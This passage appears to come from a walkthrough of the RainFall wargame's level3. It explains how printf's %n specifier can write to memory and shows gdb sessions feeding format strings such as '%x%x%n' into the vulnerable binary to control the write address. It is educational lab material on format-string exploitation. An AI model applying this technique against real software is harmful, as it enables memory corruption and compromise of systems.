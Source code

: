 But we can even write to memory ! Enter the `%n` specifier :

>%n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the y() before the occurrence of %n.

We can try inputting just a simple `%n` in our program and see what happends :

```
level3@RainFall:~$ gdb level3 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) run < <(python -c 'print("%n")')
Starting program: /home/user/level3/level3 < <(python -c 'print("%n")')

Program received signal SIGSEGV, Segmentation fault.
0xb7e7312c in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/2i $eip
=> 0xb7e7312c <vfprintf+19020>:	mov    %edi,(%eax)
   0xb7e7312e <vfprintf+19022>:	jmp    0xb7e6ee8a <vfprintf+1962>
(gdb) i r edi
edi            0x0	0
(gdb) i r eax
eax            0x200	512
(gdb)
```

It segfaults. Analyzing the assembly, it tries to write to memory address `0x200` the value `0x0`. Remember, `0x200` is the first value that was printed using the `%x` specifier. and `0x0` is simply because `printf` has not printed any characters yet.

By specifying multiple conversion specifier, we can *advance* the internal stack pointer of `printf` to choose another value on the stack :

```
level3@RainFall:~$ gdb level3 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) run < <(python -c 'print("%x%x%n")')
Starting program: /home/user/level3/level3 < <(python -c 'print("%x%x%n")')

Program received signal SIGSEGV, Segmentation fault.
0xb7e7312c in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/2i $eip
=> 0xb7e7312c <vfprintf+19020>:	mov    %edi,(%eax)
   0xb7e7312e <vfprintf+19022>:	jmp    0xb7e6ee8a <vfprintf+1962>
(gdb) i r edi
edi            0xb	11
(gdb) i r eax
eax            0xb7ff37d0	-1208010800
```